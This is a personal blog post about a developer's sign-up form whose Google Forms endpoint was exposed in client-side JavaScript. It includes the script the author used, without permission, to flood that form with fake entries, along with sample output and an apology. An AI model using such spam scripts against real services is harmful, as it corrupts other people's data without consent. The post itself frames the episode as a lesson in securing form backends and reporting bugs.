 ```yaml
---
title: Sorry, I hacked you.
date: '2016-07-19'
coverImage: '/assets/posts/Ways-Websites-Are-Hacked.png'
originalDatePublished: '2016-07-19'
description: " Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his and he had a huge google sheets security flaw"
author: 't0nylombardi'
image: 'https://images.unsplash.com/photo-1511376777868-611b54f68947'
categories: [javascript]
tags: [javascript]
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {
  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: email,
      entry_1111111117: name,
    },
    type: 'POST',
    dataType: 'xml',
    statusCode: {
      0: function () {
        window.location.replace('/path/thanks');
      },
      200: function () {
        window.location.replace('/path/thanks');
      },
    },
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText() {
  var text = '';
  var possible =
    'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
  for (var i = 0; i < 5; i++) {
    text += possible.charAt(Math.floor(Math.random() * possible.length));
  }
  return text;
}

function generateEmail() {
  var username, email, full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@' + rText() + email + '.com';
  return full_email;
}

function postContactToGoogle() {
  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: generateEmail(),
      entry_1111111117: 'HueBin_',
    },
    type: 'POST',
    dataType: 'xml',
    crossDomain: true,
    statusCode: {
      0: function (data) {
        console.log('BAD!', data);
      },
      200: function (data) {
        console.log('GOOD', data);
      },
    },
  });
}

$(function () {
  var num = 1;
  for (var i = 0; i < num; i++) {
    setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
  }
});
```

this posted info into the database that looked simular to this:

```
  name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com
  name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com
  name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com
  name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com
```

I wrote an email stating that I was really really sorry about it. More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see. Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.

